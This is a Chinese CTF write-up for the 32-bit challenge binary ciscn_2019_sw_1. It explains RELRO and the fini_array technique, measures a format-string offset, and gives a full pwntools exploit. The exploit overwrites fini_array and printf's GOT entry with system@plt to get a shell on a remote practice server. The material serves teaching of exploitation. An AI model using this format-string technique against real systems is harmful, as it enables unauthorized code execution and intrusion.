



# 0x01.ciscn_2019_sw_1


>   -   当`RELRO`保护为`NO RELRO`的时候，`init.array、fini.array、got.plt`均可读可写；为`PARTIAL RELRO`的时候，`ini.array、fini.array`可读不可写，`got.plt`可读可写；为`FULL RELRO`时，`init.array、fini.array、got.plt`均可读不可写。
>   -   程序在加载的时候，会依次调用`init.array`数组中的每一个函数指针，在结束的时候，依次调用`fini.array`中的每一个函数指针
>   -   当程序出现格式化字符串漏洞，但是需要写两次才能完成攻击，这个时候可以考虑改写`fini.array`中的函数指针为`main`函数地址，可以再执行一次`main`函数。一般来说，这个数组的长度为`1`，也就是说只能写一个地址

32位，开了NX

```sh
yutao@ubuntu:~/Desktop$ checksec ciscn_2019_sw_1
[*] '/home/yutao/Desktop/ciscn_2019_sw_1'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

一眼格式化字符串的洞，且格式化字符串的洞在栈上，比在堆上简单点：



下面测偏移：

```sh
yutao@ubuntu:~/Desktop$ ./ciscn_2019_sw_1 
Welcome to my ctf! What's your name?
aaaa%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.%X.
Hello aaaaFFB76310.2.0.61616161.252E5825.58252E58.2E58252E.252E5825.58252E58.2E58252E.252E5825.58252E58.2E58252E.252E5825.58252E58.2E58252E.yutao@ubuntu:~/Desktop$ 
```

偏移为4.

除此之外还有个sys：






所以，写fini_array的第一个为main的地址，并将printf@got改为system@plt。

```
system.plt: 0x80483D0
fini_array = 0x0804979C
printf.got = 0x0804989C
```


exp:

```python
from pwn import *

p = remote("node4.buuoj.cn",25857)
#p = process("./ciscn_2019_sw_1")

printf_got = 0x0804989C
system_plt = 0x080483D0
fini_array = 0x0804979C
main = 0x8048534
offset = 4
payload = p32(fini_array + 2) + p32(printf_got+2) + p32(printf_got) + p32(fini_array)
payload += "%" + str(0x0804 - 0x10) + "c%4$hn"    
payload += "%5$hn"                               
payload += "%" + str(0x83D0 - 0x0804) + "c%6$hn"  
payload += "%" + str(0x8534 - 0x83D0) + "c%7$hn"  
p.sendlineafter("name?\n",payload)
p.sendlineafter("name?\n",'/bin/sh\x00')
p.interactive()
```

